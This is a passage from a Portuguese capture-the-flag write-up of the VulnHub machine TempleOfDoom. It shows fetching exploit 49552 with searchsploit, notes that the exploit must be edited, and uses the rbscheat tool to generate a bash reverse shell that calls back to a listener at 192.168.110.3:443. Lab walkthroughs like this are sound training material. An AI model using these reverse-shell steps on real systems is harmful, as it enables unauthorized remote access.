 ```bash
searchsploit -m 49552
```

![](/assets/img/Vulnhub/TempleOfDoom/searchsploit-m.png)


### Exploit 49552

Analisando o exploit vimos que exitem algumas informacoes que devem ser alteradas para usarmos

![](/assets/img/Vulnhub/TempleOfDoom/exploit.png)



#### rbscheat

O comando para retornar o shell reverso foi encontrado utilizando o programa **rbscheat** que pode ser encontrado no **[GitHub](https://github.com/marciosouza20/rbscheat)**. Para baixa-lo para a nossa maquina e so usar o git clone no repositorio e dar ```make install``` no diretorio criado pelo git clone

Procuramos por um comando de shell reverso com o bash

```bash
rbscheat -i 192.168.110.3:443 -l bash 
```
